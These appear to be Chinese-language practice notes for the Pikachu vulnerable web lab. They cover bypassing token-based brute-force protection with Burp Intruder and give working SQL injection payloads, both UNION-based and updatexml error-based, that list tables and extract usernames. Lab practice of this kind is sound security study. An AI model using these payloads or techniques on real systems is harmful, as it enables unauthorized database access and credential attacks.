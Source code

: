 https://github.com/zhuifengshaonianhanlu/pikachu

#token防爆破演示
1、选择Pitchfork模式，添加2个
![img](./pic/img21.png)
2、payload1选择密码
![img](./pic/img22.png)
3、payload2处token需要从上一次请求中获取
![img](./pic/img23.png)
4、选择recursive grep
![img](./pic/img24.png)
5、注意线程设置为1
![img](./pic/img25.png)

#sql注入
联合注入

    select id,username  from pikachu.member where id=-1 union select 1,2;
    id=1 union select 1,2--&submit=%E6%9F%A5%E8%AF%A2
显错注入

    select updatexml(1,(select group_concat(table_name) from information_schema.TABLES where TABLE_SCHEMA='pikachu'),1);
    #查表
    id=1 or updatexml(1,(select group_concat(table_name) from information_schema.TABLES where TABLE_SCHEMA=database()),1)--+&submit=%E6%9F%A5%E8%AF%A2
    #查数据
    id=1 or updatexml(1,concat(0x7e,(select username from (select username from member)c limit 1,1),0x7e),1);--+&submit=%E6%9F%A5%E8%AF%A2


#ref
https://www.cnblogs.com/Severus-Cavendish/p/16318992.html

https://xz.aliyun.com/t/6677

